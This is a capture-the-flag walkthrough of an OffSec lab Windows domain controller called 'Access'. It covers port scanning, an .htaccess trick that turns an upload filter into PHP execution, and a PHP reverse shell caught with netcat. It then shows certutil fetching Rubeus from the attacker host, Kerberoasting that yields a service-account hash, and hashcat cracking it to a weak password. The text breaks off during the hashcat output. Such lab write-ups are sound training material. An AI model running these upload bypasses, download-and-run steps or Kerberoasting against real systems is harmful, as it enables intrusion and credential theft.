







Writeup by wook413

[TOC]

# Recon

## Nmap

I kicked things off with a comprehensive Nmap scan covering all 65,535 TCP ports, followed by a targeted scan of the open ports and a UDP scan of the top 10 ports.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-   
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-23 02:13 UTC
Nmap scan report for 192.168.245.187
Host is up (0.046s latency).
Not shown: 65493 closed tcp ports (reset), 15 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49673/tcp open  unknown
49678/tcp open  unknown
49691/tcp open  unknown
49701/tcp open  unknown
49719/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 14.45 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 53,80,88,135,139,389,443,445,464,593,636,3268,3269,5985,9389,47001,49664-49670,49673,49678,49691,49701,49719
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-23 02:15 UTC
Nmap scan report for 192.168.245.187
Host is up (0.048s latency).

PORT      STATE  SERVICE       VERSION
53/tcp    open   domain        Simple DNS Plus
80/tcp    open   http          Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Access The Event
88/tcp    open   kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-23 02:16:02Z)
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open   ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
443/tcp   open   ssl/http      Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Access The Event
| tls-alpn: 
|_  http/1.1
445/tcp   open   microsoft-ds?
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open   tcpwrapped
3268/tcp  open   ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp  open   tcpwrapped
5985/tcp  open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open   mc-nmf        .NET Message Framing
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open   msrpc         Microsoft Windows RPC
49665/tcp open   msrpc         Microsoft Windows RPC
49666/tcp open   msrpc         Microsoft Windows RPC
49667/tcp closed unknown
49668/tcp open   msrpc         Microsoft Windows RPC
49669/tcp open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open   msrpc         Microsoft Windows RPC
49673/tcp open   msrpc         Microsoft Windows RPC
49678/tcp open   msrpc         Microsoft Windows RPC
49691/tcp open   msrpc         Microsoft Windows RPC
49701/tcp open   msrpc         Microsoft Windows RPC
49719/tcp open   msrpc         Microsoft Windows RPC
Service Info: Host: SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-01-23T02:16:58
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 72.12 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-23 02:17 UTC
Nmap scan report for 192.168.245.187
Host is up (0.046s latency).

PORT     STATE         SERVICE
53/udp   open          domain
67/udp   closed        dhcps
123/udp  open          ntp
135/udp  closed        msrpc
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  closed        snmp
445/udp  closed        microsoft-ds
631/udp  closed        ipp
1434/udp closed        ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 6.34 seconds
```

# Initial Access

```bash
Domain: access.offsec0.

┌──(kali㉿kali)-[~/Desktop]
└─$ echo '192.168.245.187 access.offsec' | sudo tee -a /etc/hosts 
[sudo] password for kali: 
192.168.245.187 access.offsec
```

## SMB 139 445

SMB null authentication was denied, and the SMB Nmap scripts didn’t turn up anything useful.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient -N -L //$IP
session setup failed: NT_STATUS_ACCESS_DENIED
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP --script=smb-enum-shares,smb-enum-users -p 139,445            
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-23 02:26 UTC
Nmap scan report for access.offsec (192.168.245.187)
Host is up (0.048s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 5.77 seconds
                                                                                                                                    
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP --script=vuln -p 139,445
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-23 02:26 UTC
Nmap scan report for access.offsec (192.168.245.187)
Host is up (0.046s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
|_smb-vuln-ms10-054: false

Nmap done: 1 IP address (1 host up) scanned in 25.06 seconds
```

## RPC 135

I also tried an `rpcclient` null session, but that was denied as well.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient -N -L //$IP
session setup failed: NT_STATUS_ACCESS_DENIED
```

## LDAP 389 636 3268 3269

An LDAP Anonymous Bind attempt was also rejected.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ldapsearch -x -H ldap://$IP -b "dc=access,dc=offsec" "(objectClass=*)"   
# extended LDIF
#
# LDAPv3
# base <dc=access,dc=offsec> with scope subtree
# filter: (objectClass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1
```

## HTTP 80 443

Whenever I find an HTTP service, I usually run the Nmap `http-enum` script; it sometimes catches valuable info that standard directory brute-forcing misses.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP --script=http-enum -sV -p 80,443
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-23 02:29 UTC
Nmap scan report for access.offsec (192.168.245.187)
Host is up (0.047s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
| http-enum: 
|   /forms/: Potentially interesting directory w/ listing on 'apache/2.4.48 (win64) openssl/1.1.1k php/8.0.7'
|   /icons/: Potentially interesting folder w/ directory listing
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.48 (win64) openssl/1.1.1k php/8.0.7'
443/tcp open  ssl/http Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
| http-enum: 
|   /forms/: Potentially interesting directory w/ listing on 'apache/2.4.48 (win64) openssl/1.1.1k php/8.0.7'
|   /icons/: Potentially interesting folder w/ directory listing
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.48 (win64) openssl/1.1.1k php/8.0.7'

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 25.21 seconds
```


Clicking the “Buy Now” buttons revealed a file upload feature. I tested it with an image first, which went through, but the server rejected the file when I switched the extension to `.php` . I tried several variations like `.phtml` , `.phar` and etc. but they were all denied.







I confirmed that my uploaded image was successfully stored in the `/upload` directory.



To bypass the filter, I uploaded a `.htaccess` file configured to let the server treat image files as PHP scripts.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ cat .htaccess 
AddType application/x-httpd-php .jpg .jpeg .png
```



I renamed my PHP reverse shell (`Ivan-Sincek.php` ) to `Ivan-Sincek.jpg` and the server accepted the upload. I navigated to `/uploads` and verified the file was there. As soon as I clicked it, the server triggered the script, and I got a reverse shell call back on my Kali machine.





# Lateral Movement

I identified the current session user as `svc_apache` . I proceeded with user enumeration and saved the list of discovered users into a `users.txt` file.

### Shell as `svc_apache`

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 443   
listening on [any] 443 ...
connect to [192.168.45.236] from (UNKNOWN) [192.168.245.187] 65075
SOCKET: Shell has connected! PID: 952
Microsoft Windows [Version 10.0.17763.2746]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\\xampp\\htdocs\\uploads>whoami
access\\svc_apache
```

I then performed AS-REP Roasting using that user list, but none of the accounts had `UF_DONT_REQUIRE_PREAUTH` flag set.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ impacket-GetNPUsers access.offsec/ -dc-ip $IP -usersfile users.txt -format hashcat -outputfile output.txt -no-pass
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] User svc_apache doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc_mssql doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Next, I moved on to Kerberoasting with Rubeus. I usually use `impacket-GetUserSPNs` for this, but since that requires a known username and password — which I didn’t have yet — I first used built-in `setspn.exe` binary to check for any available SPNs.

```bash
C:\\xampp\\htdocs\\uploads>setspn.exe -Q */*
Checking domain DC=access,DC=offsec
CN=SERVER,OU=Domain Controllers,DC=access,DC=offsec
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/SERVER.access.offsec
        ldap/SERVER.access.offsec/ForestDnsZones.access.offsec
        ldap/SERVER.access.offsec/DomainDnsZones.access.offsec
        DNS/SERVER.access.offsec
        GC/SERVER.access.offsec/access.offsec
        RestrictedKrbHost/SERVER.access.offsec
        RestrictedKrbHost/SERVER
        RPC/20dae709-54fe-40ec-8c68-4475793b542a._msdcs.access.offsec
        HOST/SERVER/ACCESS
        HOST/SERVER.access.offsec/ACCESS
        HOST/SERVER
        HOST/SERVER.access.offsec
        HOST/SERVER.access.offsec/access.offsec
        E3514235-4B06-11D1-AB04-00C04FC2DCD2/20dae709-54fe-40ec-8c68-4475793b542a/access.offsec
        ldap/SERVER/ACCESS
        ldap/20dae709-54fe-40ec-8c68-4475793b542a._msdcs.access.offsec
        ldap/SERVER.access.offsec/ACCESS
        ldap/SERVER
        ldap/SERVER.access.offsec
        ldap/SERVER.access.offsec/access.offsec
CN=krbtgt,CN=Users,DC=access,DC=offsec
        kadmin/changepw
CN=MSSQL,CN=Users,DC=access,DC=offsec
        MSSQLSvc/DC.access.offsec

Existing SPN found!
```

After confirming an SPN existed, I transferred Rubeus to the target and proceeded with the Kerberoasting attack. This successfully pulled the hash for the `svc_mssql` user.

```bash
C:\\xampp\\htdocs\\uploads>certutil -urlcache -split -f <http://192.168.45.236/Rubeus.exe> Rubeus.exe
****  Online  ****
  000000  ...
  072200
CertUtil: -URLCache command completed successfully.
C:\\xampp\\htdocs\\uploads>.\\Rubeus.exe kerberoast /nowrap

   ______        _                      
  (_____ \\      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \\| ___ | | | |/___)
  | |  \\ \\| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3 

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : access.offsec
[*] Searching path 'LDAP://SERVER.access.offsec/DC=access,DC=offsec' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1

[*] SamAccountName         : svc_mssql
[*] DistinguishedName      : CN=MSSQL,CN=Users,DC=access,DC=offsec
[*] ServicePrincipalName   : MSSQLSvc/DC.access.offsec
[*] PwdLastSet             : 5/21/2022 5:33:45 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*svc_mssql$access.offsec$MSSQLSvc/DC.access.offsec@access.offsec*$A499812C573DA63479968CC46F207493$65C25C2325088EECC59374CDD8EF38E169D1458C8B1D8A08B2FC8EF2B1600D28AAAF49BAD0B3A18958DE6F8CFEB281AD4FB64BAA7A1ACD8C59BCE82C99D00EF99758EC3E965FA6DCBA2661476222F66EEA2D2DF17CD3770A53DD3AA1061EC32A85A249E8A9ABCA886C74398F04015DF94A71CB823D4F5674B6994839CF88D7AC6D4D6E2C8FF151924AB6BB0F7BE7CCAF48B948A6C3F61D3CB2A61FD2D4CD83E4B8149450B2970FF82C990A8898001D1689705938EFDDC2FDDC185E6AE0F36FA00B9097CD52F9ED55F9A1267737BA301269C1A4DB0355AC3BBE14289607EB03A08F52AD989A030B6DBB6859A36BDE91CD3BE34C53A1AD5846B1E2B3FC9D92C608CE6CD034C02E9021663764BF028C53788D54258FB98D2E03B7B1214D065DEEBCE952C3FFA6888D564840104DFA32E0DDF8EFBAA5F9D0824E344EA73E3D67031EEB4F2CE0D610AF01BE09E720715A8B26E1F330011524713106818D95EDB6A55A117F9E32EAEE741AA31E76CD2624630294C9109960DD61A92A08045A7B04223C17193D60E5ADD1555E5C1D7F0C0969A48F7F18320429B06DA2DE98D0F6B6053F566E4A9E611F171C1382522990AE554F67259521E97EEC6BA4D20A25B500A47969093C2E4EE63DF2E89D0D5DEA6211C27F15E088311AB6D63CA30A9949A73AF8165109AED9032527786EA490BC43B65FD216FB852B0D4313387DA9CC1A7F59FF47A9117756AFBF439B2970E4B35025D51F84E40DF933A254D796F67980908852F436851C9119374BE30F8F4FA0324CE6B8EB27BF404DC31BEEA3307CF812C76CF6B313526D0F8F1E97572A06A2CA178BC765289EC8B2CAFE31750A21B846BA9ECC10AEF8140D10A20A9EC14AF0578E8625AF65C9DB34F46C68D07482B1543CB13E611C2EE5A237A80B99464BA96FC12044B5982BB6E0D7EDC998F68B17C78C6D247C4430D58E87231CF6A27222550E25145050D532F6B285244E81334832D3CCAF53F16857937A9EDA490B9E641F43B0291C38313C06065C8777741FC3CECD338BC1A564AE5B69AE38C63F9F1FC358B1D29E002CCFEA54E554D43912C255A6CBAF11E770F6C28D8F43652ED22FCC8263053A0352F75AE8C20AA3DB4496D5AAAE2D10785D14843A87E0005474372238C4DC7DBF3C359F3B464EF6D9963F3C0742C9F193854BE332DEF5B6332BF22D015F814DED8641DBB3D947BA1F901BBFF85B8B236F5533C70E94560FCBBD1C79BD663A5702F496646195D14588E90FA8B7087305C6BDDC0020ACCD6EDE8BB8962E35CC94D30A47256E32A617AD3325EF0061B554F61FAF7D9A2933E5E7A1551680D9613C804571C49FBC499B06CE41D023D65B912F36D3E536778BDE5BFB9514D39B36F0CB5B0EA21C57CD4D850E197D6F5BCD9A437FD43366A51BBE0CDACB80043A8EDF7CFC536B4560C3F4B205E02DAA51B5FC3AA235A73C03528B0529D61073A929B2D62EEBC7E2BBA6470ED8398E7FB2959BA6085812CFF77D9C55E5543AB54E9222E31233CB4F3769A3F8461D1057EC72911810A3B46D0CE5773F71D37BBD61725912564857C1640068B70B6CCFEE42EB34DD5E1EE6FFFD652D9BBD9ABB1309F269
```

Then I took the captured hash and cracked it using Hashcat.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat --identify hash.txt                                    
The following hash-mode match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
  13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol
$krb5tgs$23$*svc_mssql$access.offsec$MSSQLSvc/DC.access.offsec@access.offsec*$a499812c573da63479968cc46f207493$65c25c2325088eecc59374cdd8ef38e169d1458c8b1d8a08b2fc8ef2b1600d28aaaf49bad0b3a18958de6f8cfeb281ad4fb64baa7a1acd8c59bce82c99d00ef99758ec3e965fa6dcba2661476222f66eea2d2df17cd3770a53dd3aa1061ec32a85a249e8a9abca886c74398f04015df94a71cb823d4f5674b6994839cf88d7ac6d4d6e2c8ff151924ab6bb0f7be7ccaf48b948a6c3f61d3cb2a61fd2d4cd83e4b8149450b2970ff82c990a8898001d1689705938efddc2fddc185e6ae0f36fa00b9097cd52f9ed55f9a1267737ba301269c1a4db0355ac3bbe14289607eb03a08f52ad989a030b6dbb6859a36bde91cd3be34c53a1ad5846b1e2b3fc9d92c608ce6cd034c02e9021663764bf028c53788d54258fb98d2e03b7b1214d065deebce952c3ffa6888d564840104dfa32e0ddf8efbaa5f9d0824e344ea73e3d67031eeb4f2ce0d610af01be09e720715a8b26e1f330011524713106818d95edb6a55a117f9e32eaee741aa31e76cd2624630294c9109960dd61a92a08045a7b04223c17193d60e5add1555e5c1d7f0c0969a48f7f18320429b06da2de98d0f6b6053f566e4a9e611f171c1382522990ae554f67259521e97eec6ba4d20a25b500a47969093c2e4ee63df2e89d0d5dea6211c27f15e088311ab6d63ca30a9949a73af8165109aed9032527786ea490bc43b65fd216fb852b0d4313387da9cc1a7f59ff47a9117756afbf439b2970e4b35025d51f84e40df933a254d796f67980908852f436851c9119374be30f8f4fa0324ce6b8eb27bf404dc31beea3307cf812c76cf6b313526d0f8f1e97572a06a2ca178bc765289ec8b2cafe31750a21b846ba9ecc10aef8140d10a20a9ec14af0578e8625af65c9db34f46c68d07482b1543cb13e611c2ee5a237a80b99464ba96fc12044b5982bb6e0d7edc998f68b17c78c6d247c4430d58e87231cf6a27222550e25145050d532f6b285244e81334832d3ccaf53f16857937a9eda490b9e641f43b0291c38313c06065c8777741fc3cecd338bc1a564ae5b69ae38c63f9f1fc358b1d29e002ccfea54e554d43912c255a6cbaf11e770f6c28d8f43652ed22fcc8263053a0352f75ae8c20aa3db4496d5aaae2d10785d14843a87e0005474372238c4dc7dbf3c359f3b464ef6d9963f3c0742c9f193854be332def5b6332bf22d015f814ded8641dbb3d947ba1f901bbff85b8b236f5533c70e94560fcbbd1c79bd663a5702f496646195d14588e90fa8b7087305c6bddc0020accd6ede8bb8962e35cc94d30a47256e32a617ad3325ef0061b554f61faf7d9a2933e5e7a1551680d9613c804571c49fbc499b06ce41d023d65b912f36d3e536778bde5bfb9514d39b36f0cb5b0ea21c57cd4d850e197d6f5bcd9a437fd43366a51bbe0cdacb80043a8edf7cfc536b4560c3f4b205e02daa51b5fc3aa235a73c03528b0529d61073a929b2d62eebc7e2bba6470ed8398e7fb2959ba6085812cff77d9c55e5543ab54e9222e31233cb4f3769a3f8461d1057ec72911810a3b46d0ce5773f71d37bbd61725912564857c1640068b70b6ccfee42eb34dd5e1ee6fffd652d9bbd9abb1309f269:trustno1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*svc_mssql$access.offsec$MSSQLSvc/DC.ac...09f269
Time.Started.....: Sat Jan 24 16:56:55 2026 (1 sec)
Time.Estimated...: Sat Jan 24 16:56:56 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1123.3 kH/s (1.24ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
